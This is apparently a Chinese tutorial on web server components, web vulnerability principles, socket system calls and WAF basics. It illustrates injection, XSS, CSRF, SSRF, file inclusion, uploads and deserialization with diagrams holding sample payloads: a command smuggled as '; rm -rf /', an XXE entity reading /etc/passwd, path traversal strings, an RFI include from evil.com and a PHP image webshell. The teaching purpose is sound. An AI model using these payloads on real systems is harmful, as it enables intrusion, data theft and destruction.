| 组件               | 作用                         | 绕不开的安全问题（后续展开）     |
| :----------------- | :--------------------------- | :------------------------------- |
| **CDN**            | 加速静态资源、缓存、DDoS防护 | CDN配置不当可能泄露源站IP        |
| **负载均衡**       | 分发流量到多台后端           | 会话保持(Cookie植入)可能泄露信息 |
| **消息队列**       | 异步处理（削峰填谷）         | 未授权访问                       |
| **缓存（Redis）**  | 热点数据缓存                 | 未授权访问、SSRF                 |
| **数据库读写分离** | 主库写、从库读               | SQL注入依然致命                  |

8\. Web安全视角的关键点

从做题/渗透测试的角度，Web服务器架构中需要关注：

| 组件          | 关注点                                                |
| :------------ | :---------------------------------------------------- |
| **Nginx配置** | 目录列出(信息泄露)、路径穿越(配置不严)、alias配置不当 |
| **PHP-FPM**   | 文件上传目录配置了PHP解析→上传webshell                |
| **错误页面**  | 是否暴露版本号、文件路径                              |
| **前端**      | 源代码注释(接口路径、测试信息)                        |
| **负载均衡**  | 会话保持逻辑是否可预测/可伪造                         |
| **反向代理**  | 访问内网服务(SSRF)、请求走私                          |
| **CDN**       | 查找真实IP                                            |
| **缓存**      | 缓存投毒                                              |

**Web服务器指纹识别**：

```bash
# 查看响应头
curl -I http://example.com
# Server: nginx/1.18.0
# 或 Server: Apache/2.4.41 (Ubuntu)

# Nginx特定路径
/proxy_path（404页面不同）
/nginx_status（开启则直接暴露信息）

# Apache特定路径
/icons/
/manual/
```

### 7.5 常见Web漏洞

由于篇幅问题，本文章只讲原理。具体攻击在另一个文章里，感兴趣可以阅读我的另一篇文章《web漏洞攻击》。

分类：

第一类——注入类：**SQL 注入**、**命令注入**、**代码注入**、**LDAP 注入**、**XXE**、**模板注入**

第二类——跨端攻击类：**反射型 XSS**、**存储型 XSS**、**DOM 型 XSS**

第三类——请求伪造类：**CSRF**、**SSRF**

第四类——文件类：**路径遍历**、**文件包含**、**文件上传**

第五类——反序列化类：**PHP、Python、Java、JavaScript 等及其  JSON 库反序列化**

第六类——配置与逻辑类：**信息泄露**、**越权**、**会话固定**、**CORS 配置错误**

*如今这些漏洞只要代码写得严谨是可以做到全面防死的*

**7.3.1 注入类**

  **1\. SQL 注入**

- **SQL（Structured Query Language，结构化查询语言）** 是一种专门用来与数据库沟通的语言。

**程序把用户输入的内容，当成了 SQL 代码的一部分来执行。**

网站/应用程序需要存储数据（用户账号、文章、商品等），这些数据放在数据库里。程序要读写数据库，就必须用一种数据库能听懂的语言来发指令——这就是 SQL。

- 网站的数据库 = 电脑上的一个超大 Excel 表格库
- SQL = 你向管理员喊的话
  - “把 users 表里 name 是‘张三’的那一行的 password 给我” → `SELECT password FROM users WHERE name = '张三'`
  - “在 articles 表里插入一条新文章” → `INSERT INTO articles (title, content) VALUES ('标题', '内容')`

```mermaid
flowchart LR
    subgraph 程序预期
        A1["SELECT * FROM users"] --> A2["WHERE username = "] --> A3["'zhangsan'"]
    end

    subgraph 实际拼接
        B1["SELECT * FROM users WHERE username = '"] --> B2["zhangsan' OR '1'='1'"]
    end

    subgraph 数据库解析结果
        C1["SELECT * FROM users"] --> C2["WHERE username = 'zhangsan'"] --> C3["OR '1'='1'"]
    end

    B2 -.->|用户输入中的单引号<br>改变了语义边界| C3
```

  **2\. 命令注入**

**程序把用户输入的内容，当成了系统命令的一部分来执行。**

```mermaid
flowchart LR
    subgraph 程序预期
        A1["ping -c 4 "]
        A2["192.168.1.1"]
    end

    subgraph 实际拼接
        B1["ping -c 4 "]
        B2["192.168.1.1; rm -rf /"]
    end

    subgraph Shell 解析结果
        C1["命令1: ping -c 4 192.168.1.1"]
        C2["命令2: rm -rf /"]
    end

    B2 -.->|分号; 被 Shell<br>解释为命令分隔符| C2
```

  **3\. 代码注入**

**程序把用户输入的内容，当成了源代码的一部分来执行。**

```mermaid
flowchart LR
    subgraph 正常情况
    	direction LR
        A1["用户输入: 5+3"] --> B1["拼接成: return 5+3;"]
        B1 --> C1["解释器解析"]
        C1 --> D1["解析为: return语句 + 表达式"]
    end

    subgraph 注入情况
    	direction LR
        A2["用户输入: 5+3; system(...)"] --> B2["拼接成: return 5+3; system(...);"]
        B2 --> C2["解释器解析"]
        C2 --> D2["解析为: 语句1 + 语句2"]
        D2 --> E2["语句2中的 system() 被执行"]
    end
```

  **4\. LDAP 注入**

- LDAP（轻量目录访问协议）是一种用于**访问和管理目录服务**的协议，专门用来**快速查询**组织结构、用户信息、设备等“读多写少”的数据。

**本质**：攻击者在用户输入中**插入特殊字符**，改变原始 LDAP 查询的**逻辑结构**，使服务器执行非预期的查询。

**一句话原理**：输入中的特殊字符（`*`、`(`、`)`、`\`、`&`、`|` 等）破坏了 LDAP 过滤器的逻辑，让数据变成了语法。

```mermaid
flowchart LR
    subgraph 正常情况
        direction LR
        N1["用户输入: username = john"] --> N2["后端拼接: (&(cn=john)(uid=*))"]
        N2 --> N3["LDAP 查询: 只返回 cn=john 的记录"]
    end

    subgraph 注入情况
        direction LR
        I1["用户输入: username = john)(uid=*"] --> I2["后端拼接: (&(cn=john)(uid=*)(uid=*))"]
        I2 --> I3["LDAP 解释器处理"]
        I3 --> I4["右括号 ) 提前闭合<br/>左括号 ( 开启新条件"]
        I4 --> I5["最终条件: cn=john 且 (uid=*) 且 uid=*"]
        I5 --> I6["结果: 绕过身份验证<br/>返回所有用户的记录"]
    end

    style I4 fill:#ffcccc,stroke:#cc0000
    style I6 fill:#ffcccc,stroke:#cc0000
```

- 正常情况：LDAP 期望 `(&(cn=输入)(uid=*))`，输入只是 `john`。
- 注入情况：输入变成了 `john)(uid=*`，拼接到 LDAP 后就变成了 `(&(cn=john)(uid=*)(uid=*))`。
- 中间的 `)(` **提前闭合了 `(cn=john)`**，并**开启了一个新的 `(uid=\*)` 条件。**
- 最终 `uid=*` 匹配所有用户，从而绕过验证。

  **5\. XXE**

- XXE（XML External Entity，XML 外部实体注入）是攻击者利用 XML 解析器的**外部实体加载功能**，读取服务器本地文件、发起内网请求、或导致拒绝服务的漏洞。

- XML（可扩展标记语言）是一种用来**存储和传输数据**的纯文本格式，主要特点是**人和机器都能读懂**，并且**可以自定义标签**。

| 对比项       | XML                           | HTML                           |
| :----------- | :---------------------------- | :----------------------------- |
| **用途**     | 存数据                        | 展示页面                       |
| **标签**     | 自定义（`<user>`、`<price>`） | 固定（`<div>`、`<p>`、`<h1>`） |
| **大小写**   | 敏感（`<User>` ≠ `<user>`）   | 不敏感（大部分）               |
| **格式要求** | 严格（必须有结束标签、引号）  | 宽松（浏览器能容错）           |
| **举例**     | 配置文件、接口返回数据        | 网页源代码                     |

```mermaid
sequenceDiagram
    participant 攻击者
    participant Web应用
    participant XML解析器
    participant 目标文件系统

    攻击者->>Web应用: POST /api/xml 请求<br/>XML内容包含恶意外部实体
    Note over 攻击者,Web应用: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

    Web应用->>XML解析器: 传递未过滤的XML
    XML解析器->>XML解析器: 解析DTD，遇到外部实体声明
    XML解析器->>目标文件系统: 尝试读取 file:///etc/passwd
    目标文件系统-->>XML解析器: 返回 /etc/passwd 内容
    XML解析器-->>Web应用: 返回解析后的XML（含文件内容）
    Web应用-->>攻击者: HTTP响应（可能泄漏文件内容）

    Note over 攻击者,目标文件系统: 攻击者从未直接请求文件，<br/>XML解析器做了“替死鬼”
```

  **6\. 模板注入**

程序把用户输入拼接到模板字符串中，模板引擎将其解析成模板语法并执行，导致攻击者可以在模板中执行任意代码。

```mermaid
flowchart LR
    subgraph 正常情况
    	direction LR
        N1["模板: 欢迎 {{ name }}"] --> N2["用户输入: 张三"]
        N2 --> N3["渲染: 欢迎 张三"]
    end

    subgraph 模板注入
    	direction LR
        I1["模板: 欢迎 {{ name }}"] --> I2["用户输入: {{ 7*7 }}"]
        I2 --> I3["模板引擎解析 {{ 7*7 }}"]
        I3 --> I4["执行 7*7 表达式"]
        I4 --> I5["渲染: 欢迎 49"]
        I1 --> I6["如果模板引擎允许调用函数<br/>可执行任意代码"]
    end

    style I2 fill:#ffcccc,stroke:#cc0000
    style I6 fill:#ffcc66,stroke:#cc0000
```

```mermaid
flowchart TB
    subgraph 服务端模板注入 SSTI
        A["PHP: Twig, Smarty<br/>Python: Jinja2, Mako<br/>Java: Freemarker, Velocity<br/>JavaScript: EJS, Pug"]
        A --> B["最终执行服务器端代码<br/>危害: RCE 服务器沦陷"]
    end

    subgraph 客户端模板注入 CSTI
        C["JavaScript: Mustache, Handlebars<br/>Vue/React 的插值语法"]
        C --> D["在受害者浏览器执行 JS<br/>危害: XSS 类攻击"]
    end
```

| 类型               | 位置         | 危害                        |
| :----------------- | :----------- | :-------------------------- |
| **SSTI（服务端）** | 后端模板引擎 | **RCE**，可直接控制服务器   |
| **CSTI（客户端）** | 前端模板引擎 | XSS，窃取 Cookie / 劫持会话 |

**模板注入 = 用户输入被模板引擎当成模板语法解析了，攻击者可以在模板中执行任意表达式，最终可能导致服务器端代码执行（SSTI）或跨站脚本（CSTI）**

**7.3.2 跨端攻击类**

  **1\. 反射型 XSS**

用户输入中的 HTML/JS 代码被服务器原样拼进响应页面，然后在自己浏览器里执行。

```mermaid
flowchart LR
    subgraph 攻击者
        A[构造恶意链接<br/>参数包含脚本]
    end

    subgraph 受害者
        B[点击链接] --> C[浏览器向服务器发请求]
    end

    subgraph 服务器
        D[收到参数] --> E[把参数原样<br/>拼进HTML]
    end

    subgraph 受害者浏览器
        F[收到响应] --> G[解析HTML]
        G --> H[遇到&lt;script&gt;<br/>当代码执行]
    end

    A --> B
    C --> D
    E --> F
```

举例

```mermaid
flowchart TB
    subgraph 正常
    	direction TB
        N1["输入: hello"] --> N2["服务器返回: <div>hello</div>"]
        N2 --> N3["浏览器: hello 当文本显示"]
    end

    subgraph 反射XSS
        I1["输入: &lt;script&gt;alert(1)&lt;/script&gt;"] --> I2["服务器返回: <div>&lt;script&gt;alert(1)&lt;/script&gt;</div>"]
        I2 --> I3["浏览器解析"]
        I3 --> I4["看到 &lt;script&gt;<br/>当代码执行"]
    end

    style I3 fill:#ffcccc,stroke:#cc0000
    style I4 fill:#ffcccc,stroke:#cc0000
```

**三个关键特征**

| 特征         | 说明                                       |
| :----------- | :----------------------------------------- |
| **不存储**   | 恶意脚本不在服务器停留，随请求来、随响应走 |
| **需要诱导** | 攻击者必须骗受害者点击特制链接             |
| **自害型**   | 脚本在受害者自己浏览器执行（不是别人）     |

  **2\. 存储型 XSS**

用户提交的恶意脚本被服务器存进数据库，之后其他用户访问页面时，服务器从数据库读出并拼进响应，脚本在受害者浏览器执行。

```mermaid
flowchart LR
    subgraph 攻击者
        A[在评论区/个人资料等<br/>提交恶意脚本]
    end

    subgraph 服务器
        B[收到提交] --> C[存入数据库]
    end

    subgraph 受害者
        D[访问页面] --> E[服务器从DB读取内容]
    end

    subgraph 受害者浏览器
        F[服务器把内容<br/>拼进HTML返回] --> G[解析HTML]
        G --> H[遇到&lt;script&gt;<br/>当代码执行]
    end

    A --> B
    C --> E
    E --> F
```

```mermaid
flowchart TB
    subgraph 反射型
        direction LR
        R1["恶意链接"] --> R2["服务器"] --> R3["浏览器执行"]
    end

    subgraph 存储型
        direction LR
        S1["恶意提交"] --> S2["服务器<br/>存入DB"] --> S3["其他用户访问"] --> S4["服务器读出"] --> S5["浏览器执行"]
    end

    style S2 fill:#ffffcc,stroke:#cc0000
```

**三个关键特征**

| 特征                   | 说明                                                         |
| :--------------------- | :----------------------------------------------------------- |
| **持久化**             | 恶意脚本存在服务器数据库里，长期有效                         |
| **无需诱导每个受害者** | 攻击者投毒一次，所有访问该页面的用户自动中招                 |
| **危害更大**           | 评论区、个人签名、商品评价等用户生成内容的地方都可能成为“毒源” |

  **3\. DOM 型 XSS**

恶意脚本不在服务器返回的 HTML 里，而是**前端 JavaScript 读取了恶意数据（来自 URL/Fragment/Storage 等），然后通过 `innerHTML`、`document.write` 等方法把它写进 DOM，浏览器解析时执行了脚本。**

```mermaid
flowchart LR
    subgraph 攻击者
        A[构造恶意链接<br/>参数包含脚本]
    end

    subgraph 受害者
        B[点击链接] --> C[浏览器请求页面]
    end

    subgraph 服务器
        D[返回正常HTML<br/>不含恶意代码]
    end

    subgraph 受害者浏览器
        E[前端JS读取URL参数] --> F[将参数拼进HTML<br/>通过innerHTML写入]
        F --> G[浏览器解析新DOM]
        G --> H[遇到 script<br/>当代码执行]
    end

    A --> B
    C --> D
    D --> E
```

**关键差异**：服务器完全没有参与“注入”这件事，漏洞发生在**浏览器端**。

DOM 型 XSS 容易被忽视。服务器日志里看不到警报、后端程序员以为安全、修复位置不同。

**7.3.3 请求伪造类**

  **3\. CSRF**

攻击者让受害者的浏览器，向目标网站发起一个**受害者本人没想发**的请求，浏览器自动带上受害者的 Cookie，服务器以为是受害者自愿操作的。

```mermaid
flowchart LR
    subgraph 前提
        A[用户已登录<br/>目标网站如 bank.com]
    end

    subgraph 攻击者
        B[构造恶意页面<br/>包含发请求的代码]
    end

    subgraph 受害者
        C[访问恶意页面]
    end

    subgraph 受害者浏览器
        D[执行恶意代码<br/>向 bank.com 发请求] --> E[浏览器自动携带<br/>bank.com 的 Cookie]
    end

    subgraph 目标服务器
        F[收到请求 + Cookie] --> G[认为是用户本人操作<br/>执行转账/改密码等]
    end

    A --> D
    B --> C
    E --> F
```

**关键**：攻击者不需要知道用户的 Cookie，浏览器自动会带。

```mermaid
flowchart TB
    subgraph 正常情况
    	direction TB
        N1["用户点击转账按钮"] --> N2["前端 POST /transfer?amount=100"]
        N2 --> N3["服务器验证 Cookie"]
        N3 --> N4["执行转账"]
    end

    subgraph CSRF攻击
    	direction TB
        I1["用户访问恶意页面"] --> I2["恶意页面中的 img src='bank.com/transfer?amount=10000'"]
        I2 --> I3["浏览器自动向 bank.com 发请求"]
        I3 --> I4["Cookie 自动携带"]
        I4 --> I5["服务器以为是用户操作<br/>执行转账"]
    end

    style I2 fill:#ffcccc,stroke:#cc0000
    style I5 fill:#ffcccc,stroke:#cc0000
```

  **4\. SSRF**

攻击者让服务器去访问本不该访问的资源（内网、本地文件、云元数据等），服务器把获取到的内容返回给攻击者。

```mermaid
flowchart LR
    subgraph 攻击者
        A["构造恶意请求<br/>参数包含内网地址"]
    end

    subgraph 目标服务器
        B["API: fetch(url)"] --> C["向攻击者指定的URL<br/>发起请求"]
    end

    subgraph 内网/本地
        D["127.0.0.1:8080/admin<br/>或<br/>metada 云服务<br/>或<br/>file:///etc/passwd"]
    end

    subgraph 攻击者
        E["服务器返回<br/>内网资源内容"]
    end

    A --> B
    C --> D
    D --> C
    C --> E
```

**关键**：服务器成了攻击者的“跳板”，攻击者自己访问不了内网，但服务器能。

```mermaid
flowchart TB
    A[SSRF 能访问的目标] --> B[内网服务<br/>数据库/Redis/内部API]
    A --> C[本地服务<br/>127.0.0.1:端口]
    A --> D[云元数据<br/>169.254.169.254]
    A --> E[文件协议<br/>file:///etc/passwd]
    A --> F[端口探测<br/>扫内网主机开放端口]
```

| 目标         | 说明                                                 |
| :----------- | :--------------------------------------------------- |
| **内网服务** | 访问攻击者无法直接访问的内网数据库、管理后台         |
| **本地服务** | 访问服务器本机未对外开放的服务（如 Redis、MySQL）    |
| **云元数据** | 在云环境（AWS/阿里云等）获取临时凭证，接管整个云账号 |
| **文件读取** | 使用 `file://` 协议读取服务器本地文件                |
| **端口扫描** | 通过响应时间/错误信息判断内网哪些端口开放            |

```mermaid
flowchart LR
    subgraph 正常情况
    	direction LR
        N1["用户输入: img.baidu.com/1.jpg"] --> N2["服务器下载: https://img.baidu.com/1.jpg"]
        N2 --> N3["返回图片给用户"]
    end

    subgraph SSRF攻击
    	direction LR
        I1["用户输入: 127.0.0.1:8080/admin"] --> I2["服务器尝试连接: http://127.0.0.1:8080/admin"]
        I2 --> I3["服务器本机有服务监听 8080 端口"]
        I3 --> I4["返回内网管理后台内容"]
        I4 --> I5["攻击者看到内网敏感信息"]
    end

    style I1 fill:#ffcccc,stroke:#cc0000
    style I4 fill:#ffcccc,stroke:#cc0000
```

服务器没有区分“合法的外部 URL”和“危险的内网/本地 URL”，攻击者把后者塞进去，服务器就乖乖去访问了。

**SSRF = 服务器没拦住攻击者指定的 URL，帮攻击者访问了不该访问的地方**

**7.3.4 文件类**

  **1\. 路径遍历**

用户输入中的 `../`（点点斜杠）让程序从原本限定的目录“逃逸”出去，访问到操作系统的任意文件。

```mermaid
flowchart LR
    subgraph 攻击者
        A["请求: /download?file=../../../etc/passwd"]
    end

    subgraph 服务器
        B["代码: readFile('/var/www/uploads/' + file)"]
        B --> C["拼接后: /var/www/uploads/../../../etc/passwd"]
    end

    subgraph 文件系统
        D["路径解析: /var/www/uploads/../.. → /var"]
        D --> E["最终: /etc/passwd"]
    end

    subgraph 攻击者
        F["服务器返回<br/>/etc/passwd 内容"]
    end

    A --> B
    C --> D
    E --> F
```

**关键**：`../` 在文件系统中代表“上一级目录”，多个 `../` 连续使用可以一路退回到根目录。

```mermaid
flowchart LR
    subgraph 正常情况
    	direction LR
        N1["用户输入: cat.jpg"] --> N2["拼接: /var/www/uploads/cat.jpg"]
        N2 --> N3["解析后: /var/www/uploads/cat.jpg"]
        N3 --> N4["读取上传目录内的文件"]
    end

    subgraph 路径遍历
    	direction LR
        I1["用户输入: ../../../etc/passwd"] --> I2["拼接: /var/www/uploads/../../../etc/passwd"]
        I2 --> I3["操作系统解析路径"]
        I3 --> I4[".. 退到 /var/www"]
        I4 --> I5[".. 退到 /var"]
        I5 --> I6[".. 退到 /"]
        I6 --> I7["最终: /etc/passwd"]
        I7 --> I8["读取系统敏感文件"]
    end

    style I1 fill:#ffcccc,stroke:#cc0000
    style I7 fill:#ffcccc,stroke:#cc0000
```

  **2\. 文件包含**

程序把用户输入当成文件路径，去包含（执行）这个文件。攻击者利用此机制，让程序执行自己控制的恶意代码。

```mermaid
flowchart TB
    subgraph 攻击者
        A["请求: ?page=../../uploads/shell.php"]
    end

    subgraph 服务器
        B["代码: include($_GET['page'] . '.php')"]
        B --> C["拼接后: ../../uploads/shell.php.php"]
    end

    subgraph 问题
        D["路径遍历 + 后缀固定"]
    end

    subgraph 绕过
        E["使用空字节截断: shell.php%00<br/>（PHP < 5.3）"]
    end
```

**关键**：`include()` 不是读取文件内容，而是**把文件当作 PHP 代码执行**。

```mermaid
flowchart LR
    subgraph 正常情况
    	direction LR
        N1["用户选择: header"] --> N2["include('header.php')"]
        N2 --> N3["执行 header.php 里的代码"]
        N3 --> N4["正常显示页面头部"]
    end

    subgraph 本地文件包含 LFI
        direction LR
        I1["用户输入: ../../etc/passwd"] --> I2["include('../../etc/passwd')"]
        I2 --> I3["尝试把 /etc/passwd 当 PHP 代码执行"]
        I3 --> I4["不是 PHP 代码 → 输出文件内容"]
        I4 --> I5["泄露系统文件"]
    end

    subgraph 远程文件包含 RFI
        direction LR
        J1["用户输入: http://evil.com/shell.txt"] --> J2["include('http://evil.com/shell.txt')"]
        J2 --> J3["从远程下载文件"]
        J3 --> J4["远程文件中的 PHP 代码被执行"]
        J4 --> J5["攻击者获得权限"]
    end

    style I1 fill:#ffcccc,stroke:#cc0000
    style I4 fill:#ffcccc,stroke:#cc0000
    style J1 fill:#ffcccc,stroke:#cc0000
    style J5 fill:#ffcccc,stroke:#cc0000
```

| 维度             | 路径遍历                                       | 文件包含                                   |
| :--------------- | :--------------------------------------------- | :----------------------------------------- |
| **操作**         | 读取文件内容                                   | 把文件**当成代码执行**                     |
| **典型函数**     | `readfile()`, `fopen()`, `file_get_contents()` | `include()`, `require()`, `include_once()` |
| **后果**         | 文件内容泄露                                   | **代码执行**（更严重，可拿 shell）         |
| **包含远程文件** | 不适用                                         | **RFI**：可包含远程 URL 上的恶意文件       |

两种文件包含：**LFI（本地文件包含）**、**RFI（远程文件包含）**

```mermaid
flowchart LR
    subgraph 攻击者
        A["请求: ?page=../../../etc/passwd"]
    end

    subgraph 目标服务器
        B["include($_GET['page'])"]
        B --> C["包含 /etc/passwd"]
        C --> D["不是 PHP 代码<br/>直接输出内容"]
    end

    subgraph 攻击者
        E["收到 /etc/passwd 内容"]
    end

    A --> B
    D --> E
```

```mermaid
flowchart LR
    A["<br/>攻击者服务器<br/>evil.com"] -->|提供恶意文件| B["目标服务器<br/>target.com"]
    B -->|include 远程文件| B
    B -->|恶意代码被执行| C["目标服务器被控制"]
```

  **3\. 文件上传**

程序允许用户上传文件，但没有正确校验文件内容，攻击者上传了一个可执行的脚本文件（通常是网站木马），并通过 Web 访问它，从而在服务器上执行任意代码。

```mermaid
flowchart LR
    subgraph 攻击者
        A[构造恶意文件<br/>shell.php]
    end

    subgraph 目标服务器
        B[上传接口<br/>无校验或校验可绕过] --> C[文件保存到<br/>Web 目录下]
    end

    subgraph 攻击者
        D[访问: www.target.com/uploads/shell.php] --> E[PHP 解析器执行]
    end

    A --> B
    C --> D
    E --> F["攻击者获得<br/>服务器控制权"]
```

举例：图片马

```mermaid
flowchart LR
    A[正常图片 shell.jpg] --> B["在图片末尾添加<br/><?php system($_GET['cmd']); ?>"]
    B --> C[图片马]
    C --> D[上传]
    D --> E[服务器：检查文件头 → 是图片 ✅]
    E --> F[保存]
    F --> G["攻击者访问 shell.jpg"]
    G --> H["服务器：.jpg 不解析 PHP ❌<br/>需要配合其他漏洞"]
```

| 配合方式             | 说明                                                         |
| :------------------- | :----------------------------------------------------------- |
| **文件包含漏洞**     | `include('./uploads/shell.jpg')` → 图片里的 PHP 代码被执行   |
| **.htaccess 解析**   | 上传 `.htaccess` 让该目录下的 `.jpg` 当 PHP 解析             |
| **解析漏洞（历史）** | `shell.php.jpg` 或 `shell.php;.jpg` 被某些老版本当作 PHP 解析 |

**7.3.5 反序列化类**

- 序列化是把**内存中的对象**转换成**可存储或传输的字符串/字节流**。
- 反序列化是反过来，把字符串/字节流恢复成内存中的对象。

程序把用户输入的序列化数据还原成对象时，触发了对象中的某些魔术方法，攻击者精心构造的数据导致这些方法执行了意外操作。	

```mermaid
flowchart LR
    subgraph 攻击者
        A["构造恶意序列化数据<br/>精心设计对象属性"]
    end

    subgraph 目标服务器
        B["接收参数: unserialize($_GET['data'])"]
        B --> C["反序列化过程"]
    end

    subgraph 对象生命周期
        D["创建对象"] --> E["触发魔术方法<br/>__wakeup() / __destruct()"]
    end

    subgraph 攻击者
        F["魔术方法中调用了危险函数<br/>如 eval(system)"]
    end

    A --> B
    C --> D
    E --> F
```

魔术方法（触发点）

```mermaid
flowchart TB
    A[反序列化过程] --> B[触发魔术方法]

    B --> C["__wakeup()<br/>反序列化时自动调用"]
    B --> D["__destruct()<br/>对象销毁时自动调用"]
    B --> E["__toString()<br/>对象被当字符串用时调用"]
    B --> F["__call()<br/>调用不存在的方法时调用"]

    C --> G["某些类在 __wakeup 里<br/>连接数据库 / 打开文件 / 执行命令"]
    D --> H["某些类在 __destruct 里<br/>清理资源 / 写入日志 / 执行代码"]
```

原理图

```mermaid
flowchart TB
    subgraph 正常业务
        N1["从Cookie读序列化数据"] --> N2["unserialize()还原对象"]
        N2 --> N3["使用对象"]
    end

    subgraph 攻击者控制输入
        I1["攻击者修改Cookie"] --> I2["注入恶意序列化字符串"]
    end

    subgraph 漏洞触发
        V1["unserialize()还原"] --> V2["创建攻击者控制的对象"]
        V2 --> V3["触发 __wakeup()"]
        V3 --> V4["__wakeup() 中调用了<br/>exec('rm -rf /')"]
    end

    I2 --> N1
    V4 --> V5[服务器命令执行]

    style I1 fill:#ffcccc,stroke:#cc0000
    style V5 fill:#ffcc66,stroke:#cc0000
```

**反序列化漏洞 = 程序把用户输入的字符串变回对象时，触发了对象中的某些方法（魔术方法），攻击者通过精心构造的数据，让这些方法执行了恶意代码。**

### 7.6 网络相关的系统接口

**网络相关的系统接口 = 用户态程序向内核发起网络操作时调用的“门”**

| 接口                 | 作用         | 一句话                      |
| :------------------- | :----------- | :-------------------------- |
| `socket()`           | 创建通信端点 | 申请一个网络通道            |
| `bind()`             | 绑定地址     | 把通道绑上门牌号（IP+端口） |
| `listen()`           | 监听连接     | 告诉内核：我来等别人连我    |
| `accept()`           | 接受连接     | 从等待队列里拿一个连接      |
| `connect()`          | 发起连接     | 主动去连别人                |
| `send()` / `write()` | 发送数据     | 把数据往外发                |
| `recv()` / `read()`  | 接收数据     | 从内核缓冲区取数据          |
| `close()`            | 关闭连接     | 释放资源                    |

**7.4.1 TCP 编程模型**

```mermaid
flowchart TB
    subgraph 服务端
        S1[socket] --> S2[bind] --> S3[listen] --> S4[accept]
        S4 --> S5[recv/send] --> S6[close]
    end

    subgraph 客户端
        C1[socket] --> C2[connect] --> C3[send/recv] --> C4[close]
    end

    S4 -.->|三次握手| C2
```

  1\. `socket()`

```c
int socket(int domain, int type, int protocol);
// 返回：文件描述符（fd）
```

| 参数       | 选项                         | 含义                |
| :--------- | :--------------------------- | :------------------ |
| `domain`   | `AF_INET` / `AF_INET6`       | IPv4 / IPv6         |
| `type`     | `SOCK_STREAM` / `SOCK_DGRAM` | TCP / UDP           |
| `protocol` | `0`                          | 自动匹配（TCP/UDP） |

**内核做了**：分配一个文件描述符，在内核中创建一个“套接字”结构体，初始化发送/接收缓冲区。

  2\. `bind()`

```c
int bind(int sockfd, struct sockaddr *addr, socklen_t addrlen);
```

**内核做了**：把 `(IP, 端口)` 这个元组和 socket 绑定。告诉内核：来自网卡、发往这个 IP+端口 的数据包，交给这个 socket。

  3\. `listen()` 和 `accept()`

```c
int listen(int sockfd, int backlog);  // backlog = 等待队列长度
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```

**内核做了**：

- `listen()`：把 socket 标记为“被动”模式，创建一个**半连接队列**（SYN 收到、ACK 未回）和**全连接队列**（握手完成、等 accept）
- `accept()`：从全连接队列取出一个已完成握手的连接，创建**新的 socket fd**（用于和这个客户端通信）

  4\. `connect()`

```c
int connect(int sockfd, struct sockaddr *addr, socklen_t addrlen);
```

**内核做了**：主动发起 TCP 三次握手（SYN → SYN+ACK → ACK）。整个过程内核自动完成，`connect()` 返回时，握手已完成或失败。

  5\. `send()` / `recv()`

```c
ssize_t send(int sockfd, const void *buf, size_t len, int flags);
ssize_t recv(int sockfd, void *buf, size_t len, int flags);
```

**内核做了**：

```mermaid
flowchart TB
    subgraph send
    	direction TB
        A[用户态 buf] -->|系统调用| B[内核拷贝到 socket 发送缓冲区]
        B --> C[内核协议栈处理<br/>分段/封装 TCP 头等]
        C --> D[网卡驱动发送]
    end

    subgraph recv
    	direction TB
        E[网卡收到数据包] --> F[内核协议栈<br/>重组/去重/校验]
        F --> G[放入 socket 接收缓冲区]
        G -->|系统调用| H[拷贝到用户态 buf]
    end
```

  6\. `close()`

**内核做了**：如果没有其他 fd 指向这个 socket，就触发 TCP 四次挥手。释放内核中的 socket 结构体、清空缓冲区。

**7.4.2 阻塞 vs 非阻塞**

| 模式       | `recv()` 没数据时 | `send()` 缓冲区满时  |
| :--------- | :---------------- | :------------------- |
| **阻塞**   | 卡住，等数据到    | 卡住，等缓冲区有空位 |
| **非阻塞** | 立即返回 `EAGAIN` | 立即返回 `EAGAIN`    |

IO 多路复用（解决阻塞问题）

| 接口       | 原理                      | 适用                           |
| :--------- | :------------------------ | :----------------------------- |
| `select()` | 遍历 fd 集合，最多 1024   | 小规模连接                     |
| `poll()`   | 类似 select，无 1024 限制 | 中规模                         |
| `epoll()`  | 事件驱动，只返回就绪的 fd | **大规模（Nginx/Redis 在用）** |

```mermaid
flowchart TB
    subgraph select/poll
        A[用户态传入所有 fd] --> B[内核遍历全部 fd]
        B --> C[返回就绪 fd]
    end

    subgraph epoll
        D[内核维护红黑树 + 就绪链表] --> E[只返回就绪的 fd]
        E --> F[n复杂度]
    end
```

**7.4.3 用户态 ↔ 内核态切换成本**

每个系统调用（`send`、`recv`、`accept` 等）都是一次**用户态 ↔ 内核态切换**：

| 操作          | 切换次数                                                     |
| :------------ | :----------------------------------------------------------- |
| `send` 发数据 | 2 次（用户→内核，内核→用户）                                 |
| `recv` 收数据 | 2 次                                                         |
| 批量收发      | 可以合并系统调用减少切换（如 `sendmsg` / `recvmsg` / `readv` / `writev`） |

**这就是为什么高性能服务要尽量减少系统调用次数**——用 `epoll` 一次拿多个就绪事件，用 `sendmsg` 一次发多个数据块。

**7.4.4 服务端编程的三阶段演进**

```mermaid
flowchart LR
    A["多进程/多线程<br/>一个连接一个线程"] --> B["select/poll<br/>一个线程监听多个连接"]
    B --> C["epoll + 非阻塞 IO<br/>事件驱动/Reactor模式"]
```

| 阶段               | 代表             | 特点               |
| :----------------- | :--------------- | :----------------- |
| 进程/线程模型      | Apache prefork   | 连接多了切换开销大 |
| select/poll        | 轻量级服务器     | 1024 限制/遍历开销 |
| **epoll + 非阻塞** | **Nginx、Redis** | 高性能、高并发     |

**网络相关系统接口 = 用户态程序通过 socket/bind/listen/accept/connect/send/recv 让内核帮忙收发数据。性能关键在于 I/O 模型（阻塞/非阻塞/多路复用）和减少用户态↔内核态切换次数。**

### 7.7 Web防火墙与绕过

- Web防火墙是位于Web应用和客户端之间的**安全过滤层**，检测并拦截恶意请求（SQL注入、XSS、扫描器、CC攻击等）。

| 类型                       | 工作位置                | 检测内容                  | 绕过难度            |
| :------------------------- | :---------------------- | :------------------------ | :------------------ |
| **网络防火墙**（iptables） | 内核态（网络层/传输层） | IP、端口、协议            | 高（规则粗糙）      |
| **Web防火墙**（WAF）       | 用户态（应用层）        | HTTP参数、请求头、Payload | 中-低（规则可探测） |

**7.5.1 WAF的检测原理**

1\. 特征匹配（基础）

WAF内置一个**规则库**（正则表达式 + 关键词），匹配恶意请求。

**局限性**：依赖规则更新，可以绕过（大小写、编码、注释等）。

2\. 语义分析（智能WAF）

解析SQL语法树，判断是否有恶意结构
解析HTML/JS，判断XSS是否真实执行

**优势**：对抗变种能力强
**缺点**：性能开销大、复杂度高
